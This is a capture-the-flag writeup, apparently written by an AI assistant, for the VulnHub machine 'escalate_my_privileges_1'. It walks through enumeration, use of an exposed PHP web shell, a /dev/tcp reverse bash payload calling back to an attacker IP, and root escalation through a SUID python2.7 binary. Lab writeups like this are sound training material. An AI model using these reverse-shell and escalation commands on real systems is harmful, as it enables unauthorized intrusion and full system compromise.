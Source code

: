 Here is your **professional and polished writeup** in **Markdown format**, perfect for publishing on GitHub, a personal portfolio, or a cybersecurity blog:

---

````markdown
# 🧠 VulnHub Writeup: escalate_my_privileges_1

- **Machine Name:** escalate_my_privileges_1  
- **IP Address:** `10.38.1.120`  
- **Difficulty:** Beginner – Intermediate  
- **Hash (MD5):** `d44f39d1ef8c5e3d9ef5f82a7afafe5b`  
- **Goal:** Gain root access and capture `proof.txt`

---

## 🔍 1. Enumeration

### 🔎 Nmap Scan
```bash
sudo nmap -sC -sV -oN nmap.txt 10.38.1.120
````

> *(Standard service and version detection scan. Based on results, a web server was assumed.)*

---

### 📁 Web Enumeration

#### `dirb` Scan

```bash
dirb http://10.38.1.120 /usr/share/dirb/wordlists/common.txt
```

**Discovered Paths:**

* `/cgi-bin/` — `403 Forbidden`
* `/index.html` — `200 OK`
* `/phpinfo.php` — `200 OK`
* `/robots.txt` — `200 OK`

#### `/robots.txt` Content:

```txt
User-agent: *
Disallow: /phpbash.php
```

🕵️ Interesting Discovery: `/phpbash.php`
This appears to be a **PHP web shell** and provides a great entry point.

---

## 🎯 2. Initial Access

### ✅ Web Shell Access

Navigating to:

```
http://10.38.1.120/phpbash.php
```

Provides a working web shell under the user `apache`.

---

### 🖥️ Reverse Shell

Generated a reverse shell using `msfvenom`:

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=10.38.1.121 LPORT=5555 -f raw
```

**Payload Used:**

```bash
bash -c '0<&125-;exec 125<>/dev/tcp/10.38.1.121/5555;sh <&125 >&125 2>&125'
```

**Listener Setup:**

```bash
nc -lvp 5555
```

**Successful Shell:**

```
Connection from: 10.38.1.120
User: apache (uid=48)
```

---

## 📂 3. Post-Exploitation

Listing files in the current directory:

```bash
ls
```

**Found:**

* `Credentials.txt`
* `backup.sh`
* `runme.sh`
* `test.txt`

---

## 🔐 4. Privilege Escalation

### 🔍 SUID Binary Enumeration

```bash
find / -perm -4000 -type f -ls 2>/dev/null
```

**Interesting Find:**

```bash
/usr/bin/python2.7
```

This binary has the SUID bit set and can be abused for privilege escalation.

---

### ⚡ Privilege Escalation Using Python SUID

```bash
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**Privilege Escalation Successful:**

```bash
id
uid=0(root) gid=48(apache) groups=48(apache)
```

---

## 🏁 5. Capture the Flag

```bash
cd /root
cat proof.txt
```

**Flag:**

```
Best of Luck
628435356e49f976bab2c04948d22fe4
```

---

## ✅ Summary

| Step                    | Action                                          |
| ----------------------- | ----------------------------------------------- |
| 🔍 Enumeration          | Discovered `/phpbash.php` via `robots.txt`      |
| 🧠 Initial Access       | Gained shell access as `apache` using web shell |
| 🚀 Privilege Escalation | Abused SUID `python2.7` to get root access      |
| 🏁 Flag Captured        | `628435356e49f976bab2c04948d22fe4`              |

---

> 🛡️ **Security Takeaway:**
> This machine highlights how dangerous it is to leave debugging tools like `phpbash.php` exposed on production environments. Additionally, misconfigured SUID binaries (especially interpreters like Python) can be easily exploited for full system compromise.

---

```

Let me know if you'd like a:
- **PDF version**
- **HTML blog template**
- **Jekyll/Markdown blog post**
- **Cybersecurity portfolio format**

I'll generate and format it for you instantly.
```
